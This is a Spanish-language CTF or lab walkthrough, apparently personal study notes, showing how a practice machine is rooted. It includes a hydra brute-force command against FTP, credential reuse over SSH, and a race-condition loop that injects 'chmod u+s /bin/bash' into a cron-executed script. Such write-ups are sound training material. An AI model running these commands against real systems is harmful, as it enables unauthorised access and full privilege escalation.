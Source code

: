 Hacemos el escaneo de nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230805105624.png]]
Y esto es lo que corre por el puerto 80, donde se hace una mención al protocolo ftp y vemos un usuario llamado Juan:
![[Mis apuntes/ANEXOS/Pasted image 20230805105655.png]]
Por lo que hacemos un ataque de fuerza bruta con hydra:
```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.60
```
![[Mis apuntes/ANEXOS/Pasted image 20230805110031.png]]
Dentro del servidor ftp vemos muchos archivos:
![[Mis apuntes/ANEXOS/Pasted image 20230805110452.png]]
Por lo que haremos una descarga recursiva de todos estos archivos con el comando wget de esta forma, poniendo la IP del servidor FTP:
```bash
wget -r ftp://"juan":"alexis"@192.168.0.60/
```
![[Mis apuntes/ANEXOS/Pasted image 20230805111420.png]]
Si ejecutamos el comando tree veremos todos los archivos dentro de las carpetas, donde vemos un fichero de contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230805111503.png]]
Pero es un rabbit hole:
![[Mis apuntes/ANEXOS/Pasted image 20230805111529.png]]
De todos modos con el comando tree no estamos viendo los archivos ocultos, por lo que usaremos un tree -a .
```bash
tree -a .
```
Y ahora vemos un archivo oculto dentro de fold10:
![[Mis apuntes/ANEXOS/Pasted image 20230805111929.png]]
Y nos dice algo de una cookie dentro del directorio personal del usuario:
![[Mis apuntes/ANEXOS/Pasted image 20230805111954.png]]
De todos modos, dejando esta parte en pausa, si accedemos vía ssh con las credenciales de FTP vemos que estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230805112407.png]]
Vemos 2 usuarios dentro de /home:
![[Mis apuntes/ANEXOS/Pasted image 20230805112609.png]]
Pero lo interesante es si buscamos archivos con extensión .sh, donde vemos que hay uno muy interesante:
```bash
find / -name *.sh 2>/dev/null | xargs ls -l
```
![[Mis apuntes/ANEXOS/Pasted image 20230805112915.png]]
Y si vemos el contenido del script sería este, donde vemos que se hace un curl a un archivo y luego se ejecuta con bash:
![[Mis apuntes/ANEXOS/Pasted image 20230805113404.png]]
Nos da que pensar que este script se está ejecutando por detrás de forma automatizada, por lo que tenemos una utilidad llamada pspy para ver procesos que están corriendo:
![[Mis apuntes/ANEXOS/Pasted image 20230805113713.png]]
Nos lo compartimos con curl porque wget no está instalado en la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230805113829.png]]
Y se empieza a ejecutar:
![[Mis apuntes/ANEXOS/Pasted image 20230805114004.png]]
Y podemos confirmar que el script se ejecuta cada cierto tiempo:
![[Mis apuntes/ANEXOS/Pasted image 20230805114102.png]]
La idea es poder crear un fichero llamado a.bash y hacer que el script lo ejecute antes de que llegue a eliminarlo:
![[Mis apuntes/ANEXOS/Pasted image 20230805113404.png]]
Por tanto vamos a crear un bucle que constantemente esté creando el archivo con el código malicioso:
```bash
#!/bin/bash

while true; do
    echo 'chmod u+s /bin/bash' >> /tmp/a.bash && echo 'Funciona'
done
```
Si hacemos esto estaremos creando constantemente dicho archivo y si ejecutamos el script conseguiremos que se ejecute el código malicioso:
![[Mis apuntes/ANEXOS/Pasted image 20230805115251.png]]
Y mientras este bucle se ejecuta, posiblemente se haya ejecutado de forma automatizada el script de chek_for_install.sh, por lo que detenemos el script y probamos en ejecutar un bash -p y ya somos root:
![[Mis apuntes/ANEXOS/Pasted image 20230805115354.png]]
